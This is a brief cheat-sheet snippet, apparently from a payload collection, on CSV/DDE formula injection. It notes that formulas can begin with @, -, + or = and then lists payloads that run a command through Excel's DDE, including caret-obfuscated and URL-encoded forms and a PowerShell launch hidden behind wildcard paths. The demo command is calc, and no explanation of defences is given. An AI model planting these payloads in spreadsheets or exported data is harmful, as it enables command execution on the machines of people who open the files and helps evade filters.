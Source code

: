 any formula can be start with
@ ,  - , + , =  . <br>
`=cmd|'/K calc'!A0`

CSV/ DDE injection obfuscate   <br>

`=cmd|'/K c^a^l^c'!A0`

`%2bcmd|'/K c^a^l^c'!A0%2b`

`=cmd|'/c REM.&&@p^o^w^e^r^s^h^e^l^l c:/*/*2/?al?.?x?"'!_xlbgnm.A1`

